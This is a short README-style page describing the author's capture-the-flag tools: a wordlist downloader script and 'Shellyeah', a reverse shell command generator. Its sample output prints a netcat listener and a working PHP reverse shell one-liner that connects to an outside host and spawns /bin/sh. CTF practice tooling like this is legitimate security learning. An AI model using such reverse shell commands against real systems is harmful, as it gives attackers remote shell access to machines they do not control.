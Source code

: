 ## CTF tools
I've developed some personal tools to help with CTFs. Maybe you'll find them useful. They're available [here](https://github.com/Touhottaja/ctf_tools).

### WL-Fetcher
[WL-Fetcher](https://github.com/Touhottaja/ctf_tools/blob/main/wl_fetcher.sh) is bash script for downloading wordlists from multiple sources.

#### Usage
```
$ mkdir wordlists/
$ chmod +x wl_fetcher.sh
$ ./wl_fetcher.sh -d wordlists/  # Fetches the wordlists
$ ./wl_fetcher.sh -u wordlists/  # Fetches changes for the wordlists
```

### Shellyeah
[Shellyeah](https://github.com/Touhottaja/ctf_tools) is a CLI tool (with an awful large ASCII art) for generating reverse shell commands.

#### Usage
```
$ sudo ln -s [<Path to shellyeah.py>]/shellyeah.py /usr/local/bin/shellyeah
$ chmod +x shellyeah
$ shellyeah -a 1.2.3.4 -p 1234 -s "php exec"

 _______________________________________
< Shell Yeah! - Reverse Shell Generator >
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\

Listener command:
nc -lvnp 1234

Reverse shell command:
php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
